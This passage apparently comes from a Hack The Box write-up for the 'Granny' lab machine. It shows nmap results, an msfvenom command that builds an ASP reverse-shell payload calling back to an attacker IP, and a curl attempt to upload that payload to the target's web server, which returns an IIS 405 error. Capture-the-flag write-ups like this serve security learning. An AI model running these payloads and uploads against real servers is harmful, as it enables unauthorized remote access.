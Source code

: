 ```sh
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   20.71 ms 10.10.16.1
2   20.73 ms 10.10.10.15

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.43 seconds
```
{% endraw %}

<br />
Create an asp payload with msfvenom.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/granny]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.12 LPORT=443 ExitFunc=thread -f asp -o shell.asp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of asp file: 38252 bytes
Saved as: shell.asp
```
{% endraw %}

<br />
Try uploading the file to the webserver since the nmap said that it allowed for PUT requests.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/granny]
└─$ curl http://10.10.10.15/images --upload-file shell.asp
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>The page cannot be displayed</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=Windows-1252">
<STYLE type="text/css">
  BODY { font: 8pt/12pt verdana }
  H1 { font: 13pt/15pt verdana }
  H2 { font: 8pt/12pt verdana }
  A:link { color: red }
  A:visited { color: maroon }
</STYLE>
</HEAD><BODY><TABLE width=500 border=0 cellspacing=10><TR><TD>

<h1>The page cannot be displayed</h1>
The page you are looking for cannot be displayed because an invalid method (HTTP verb) was used to attempt access.
<hr>
<p>Please try the following:</p>
<ul>
<li>Contact the Web site administrator if you believe that this request should be allowed.</li>
<li>Make sure that the Web site address displayed in the address bar of your browser is spelled and formatted correctly. </li>
</ul>
<h2>HTTP Error 405 - The HTTP verb used to access this page is not allowed.<br>Internet Information Services (IIS)</h2>
<hr>
<p>Technical Information (for support personnel)</p>
<ul>
```